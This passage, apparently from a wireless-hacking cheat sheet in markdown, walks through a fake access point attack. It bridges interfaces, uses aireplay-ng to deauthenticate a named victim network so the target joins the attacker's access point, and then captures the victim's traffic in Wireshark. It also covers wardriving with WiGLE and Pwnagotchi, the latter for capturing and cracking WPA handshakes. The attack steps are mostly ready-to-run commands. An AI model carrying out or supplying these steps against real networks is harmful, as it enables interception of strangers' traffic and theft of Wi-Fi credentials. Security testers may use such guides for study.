 Setup the bridge

```
brctl addbr <BridgeName>
brctl addif <BridgeName> <monitor wireless card>
```

Power up your internet connection and your bridge name

```
ifconfig eth0 0.0.0.0 up
ifconfig <BridgeName> up
```

Setup dhclient

```
dhclient3 <BridgeName>
```

Deauthenticate you'r target.

```
aireplay-ng –deauth 0 –a <victimBSSID> wlan0mon
```

Wait for your target to connect to you'r Fake Access Point. If not, repeat the deauthentication until it succed.

Then using wireshark analyse the traffic of you'r target.

```
# Filter : 
# ;select <BridgeName> interface
```
 
## Wardriving<a name="Wardriving"></name>
 
### Using WiGLE<a name="wigle-wardriving"></name>
 
You can browse the <a href="https://www.wigle.net/">WiGLE website</a> to look you'r profil and more.

Download the <a href="https://play.google.com/store/apps/details?id=net.wigle.wigleandroid">WiGLE APK</a>

Open it on your phone, run the scan and drive.
 
### Using Pwnagtochi<a name="pwnagotchi-wardriving"></a>
 
<a href="https://pwnagotchi.ai/">Pwnagotchi</a> is running on Raspberry Pi and allow you to do various Wireless attacks, but specifically against WPA.
 
Using plugins, you can submit handshakes online and attempt to crack it.
 
<a href="https://github.com/evilsocket/pwnagotchi/blob/master/pwnagotchi/plugins/default/gps.py">This plugin</a> allow you to save coordination like wardriving.

